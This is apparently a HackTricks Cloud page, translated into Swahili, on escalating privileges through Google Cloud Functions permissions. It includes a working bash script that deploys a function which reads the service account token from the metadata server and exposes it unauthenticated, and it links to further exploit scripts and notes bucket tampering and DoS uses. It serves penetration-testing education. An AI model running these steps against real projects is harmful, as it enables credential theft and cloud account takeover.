 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Taarifa zaidi kuhusu Cloud Functions:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Mshambuliaji mwenye haki hizi anaweza **kuunda Cloud Function mpya yenye msimbo wa (mbaya) na kupewa Akaunti ya Huduma**. Kisha, vuja token ya Akaunti ya Huduma kutoka kwenye metadata ili kupandisha haki kwake.\
Haki zingine za kuanzisha kazi hiyo zinaweza kuhitajika.

Mifano ya skripti za kutumia mbinu hii inaweza kupatikana [hapa](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) na [hapa](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) na faili ya .zip iliyojengwa tayari inaweza kupatikana [hapa](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Mshambuliaji mwenye haki hizi anaweza **kubadilisha msimbo wa Kazi na hata kubadilisha akaunti ya huduma iliyounganishwa** kwa lengo la kuhamasisha token.

{% hint style="danger" %}
Ili kupeleka cloud functions utahitaji pia ruhusa za actAs juu ya akaunti ya huduma ya kawaida ya kompyuta au juu ya akaunti ya huduma inayotumika kujenga picha.
{% endhint %}

Haki za ziada kama ruhusa ya `.call` kwa toleo la 1 la cloudfunctions au jukumu `role/run.invoker` ili kuanzisha kazi hiyo zinaweza kuhitajika.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
Ikiwa unapata kosa `Permission 'run.services.setIamPolicy' denied on resource...` ni kwa sababu unatumia param `--allow-unauthenticated` na huna ruhusa za kutosha kwa hiyo.
{% endhint %}

Script ya kutekeleza kwa njia hii inaweza kupatikana [hapa](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

Kwa ruhusa hii unaweza kupata **URL iliyosainiwa ili uweze kupakia faili kwenye mfuko wa kazi (lakini msimbo wa kazi hautabadilishwa, bado unahitaji kuisasisha)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Sijui jinsi ruhusa hii pekee inavyoweza kuwa na manufaa kutoka kwa mtazamo wa mshambuliaji, lakini ni vizuri kujua.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Jipe ruhusa yoyote kati ya **`.update`** au **`.create`** zilizotangulia ili kupandisha hadhi.

### `cloudfunctions.functions.update`

Kuwa na ruhusa za **`cloudfunctions`** pekee, bila **`iam.serviceAccounts.actAs`** huwezi **kusaidia kusasisha kazi HII SI VALID PRIVESC.**

### Upatikanaji wa Kusoma na Kuandika juu ya bucket

Ikiwa una upatikanaji wa kusoma na kuandika juu ya bucket unaweza kufuatilia mabadiliko katika msimbo na wakati wowote **sasisho katika bucket linapotokea unaweza kusasisha msimbo mpya na msimbo wako** ambao toleo jipya la Cloud Function litakimbia na msimbo wa nyuma uliowasilishwa.

Unaweza kuangalia zaidi kuhusu shambulio katika:

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

Hata hivyo, huwezi kutumia hii kujiandaa kabla ya kuathiri Cloud Functions za watu wengine kwa sababu ikiwa utaunda bucket katika akaunti yako na kuipa ruhusa za umma ili mradi wa nje uweze kuandika juu yake, unapata kosa lifuatalo:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
Hata hivyo, hii inaweza kutumika kwa shambulio za DoS.
{% endhint %}

### Upatikanaji wa Kusoma na Kuandika juu ya Kijiji cha Vitu

Wakati Cloud Function inaundwa, picha mpya ya docker inasukumwa kwenye Kijiji cha Vitu cha mradi. Nilijaribu kubadilisha picha hiyo na picha mpya, na hata kufuta picha ya sasa (na picha ya `cache`) na hakuna kilichobadilika, kazi ya wingu inaendelea kufanya kazi. Kwa hivyo, labda inaweza **kuwa na uwezekano wa kutumia shambulio la Race Condition** kama ilivyo na bucket kubadilisha kontena la docker ambalo litakimbia lakini **kubadilisha picha iliyohifadhiwa si rahisi kuathiri Cloud Function**.

## Marejeleo

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
